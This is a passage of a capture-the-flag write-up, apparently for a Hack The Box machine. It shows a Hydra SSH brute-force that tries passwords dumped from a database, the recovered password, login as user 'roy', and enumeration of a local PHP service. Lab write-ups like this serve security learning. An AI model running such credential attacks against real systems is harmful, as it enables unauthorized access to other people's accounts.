 - don't find any thing in the `www-data`
- only get the user `roy`
- I check if user `roy` can has ssh enable

	`ssh roy@10.10.10.212`

	  roy@10.10.10.212's password:   

- so roy has ssh enable
- i am thinking about bruteforcing ssh but first try to use creds that dumped from the database

	`hydra -l roy -P wordlist 10.10.10.212 -t 4 ssh`

	  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-04 10:19:34
	  [DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
	  [DATA] attacking ssh://10.10.10.212:22/
	  [22][ssh] host: 10.10.10.212   login: roy   password: n2vM-<_K_Q:.Aa2
	  1 of 1 target successfully completed, 1 valid password found
	  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-04 10:19:42

- found reused password `n2vM-<_K_Q:.Aa2`

### creds
`roy:n2vM-<_K_Q:.Aa2`

## ssh roy

`ssh roy@10.10.10.212`
```bash
roy@10.10.10.212's password: n2vM-<_K_Q:.Aa2
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-48-generic x86_64)
roy@bucket:~$ cat user.txt
dd3f563b************************
```

## Enumerate user roy

- check network

	`roy@bucket:~$ ss -lnpt`

	  State     Recv-Q    Send-Q         Local Address:Port          Peer Address:Port               
	  LISTEN    0         511                127.0.0.1:8000               0.0.0.0:*

- there is a local server running on port 8000
- inside `/var/www` directory there are two directroies

	  drwxr-x---+  4 root root 4096 Sep 23 10:56 bucket-app
	  drwxr-xr-x   2 root root 4096 Nov  4 08:20 html

- **goto** local server directory `/var/www/bucket-app/` found `index.php`

	  roy@bucket:/var/www/bucket-app$ ls -la | grep index.php
	  `-rwxr-x---+  1 root root  17222 Sep 23 03:32 index.php`

- `index.php` contians php code snippet.
```php
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
        if($_POST["action"]==="get_alerts") {
                date_default_timezone_set('America/New_York');
                $client = new DynamoDbClient([
                        'profile' => 'default',
                        'region'  => 'us-east-1',
                        'version' => 'latest',
                        'endpoint' => 'http://localhost:4566'
                ]);
```